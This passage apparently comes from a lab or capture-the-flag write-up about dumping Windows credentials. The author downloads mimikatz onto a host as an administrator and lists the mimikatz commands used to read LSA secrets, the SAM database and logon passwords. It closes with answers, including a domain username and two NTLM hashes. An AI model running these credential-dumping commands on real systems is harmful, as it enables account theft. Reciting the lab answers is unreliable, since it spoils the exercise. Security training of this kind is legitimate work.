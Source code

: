 # Dump It Like It's Hot and Not the soft and fluffy kind

From here it was smooth sailing to `wget` the mimikatz and run it as the admin-petersj:  
![mk1](Screenshots/dlih-wget-mk.png)
Then run it:  
![mk2](Screenshots/dlih-mk-init.png)

I used these commands as instructed:  
```mimikatz
privilege::debug
token::elevate
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

Follow the links to the output for each:
[DLIHlsaSAMdump](Dump-it-like-its-hot-to-not-the-soft-and-fluffy-kind/DumpDLIHlsaSAMdump)  
[DLIHsekulsa](Dump-it-like-its-hot-to-not-the-soft-and-fluffy-kind/DLIHsekulsa)  
[DLIHsekulsaLogonPasswds](Dump-it-like-its-hot-to-not-the-soft-and-fluffy-kind/DLIHsekulsaLogonPasswds)  



## Answers

What domain user was logged in?
```{toggle}
BlaireJ
```
What is the user's hash?
```{toggle}
c374ecb7c2ccac1df3a82bce4f80bb5b
```
What is the administrator's NTLM hash?
```{toggle}
a06e58d15a2585235d18598788b8147a
```